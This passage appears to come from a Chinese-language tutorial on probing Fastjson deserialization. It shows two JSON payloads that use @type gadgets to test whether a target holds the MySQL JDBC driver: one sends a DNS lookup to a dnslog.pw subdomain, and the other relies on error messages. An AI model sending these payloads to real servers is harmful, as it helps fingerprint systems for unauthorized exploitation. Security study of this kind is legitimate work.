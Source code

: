 ## 3.2 dnslog 回显判断法

`payload35`：

```plain
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}},"country":"aaa.qmc8xj4s.dnslog.pw"}}}
```

只有`MacOS`可以`ping`带花括号的域名，`Linux`和`Windows`会报错，所以该`payload`需要特定环境才可以。

## 3.3 报错回显判断法

`payload36`：

```plain
{"x": {"@type": "java.lang.Character"{"@type": "java.lang.Class","val": "com.mysql.jdbc.Driver"}}
```

[![](assets/1706959415-eb9216402a4b6541b0f0592f5f6d36bd.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766482187-414c1b41-2d60-4b08-bb6e-a631f8579b1c.png)  
[![](assets/1706959415-d1cd435227664822f046ca9080594ab2.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766568952-dc4b6166-67a6-481e-a096-94484b44711c.png)
